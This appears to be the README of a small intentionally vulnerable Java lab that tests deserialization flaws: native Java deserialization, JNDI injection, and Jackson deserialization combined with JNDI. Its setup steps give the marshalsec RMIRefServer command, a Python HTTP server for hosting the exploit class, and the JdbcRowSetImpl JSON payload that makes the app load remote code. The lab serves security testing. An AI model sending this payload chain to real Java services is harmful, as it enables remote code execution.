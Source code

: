 # Simple Deserialization tester (simple-deser)
 
## Description
This project contains some simple deserialization tests.

## Contents
1. Native Binary Java Deserialization (base64 encoded)
2. JNDI Injection
3. Jackson Deserialization + JNDI Injection

### JNDI Injection Setup
1. Run Marshalsec: `java.exe -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://<http server host>:8181#<fully qualified exploit path> <RMI server port>` (Ex: `http://localhost:8181#com.devsec.research.exploits.Exploit 2099`)
2. Start HTTP Server inside the build/classes folder at the com folder level: python -m http.server 8181
3. POST `["com.sun.rowset.JdbcRowSetImpl",{"dataSourceName":"rmi://localhost:2099/Exploit","autoCommit":true}]` to /simple-deser/json
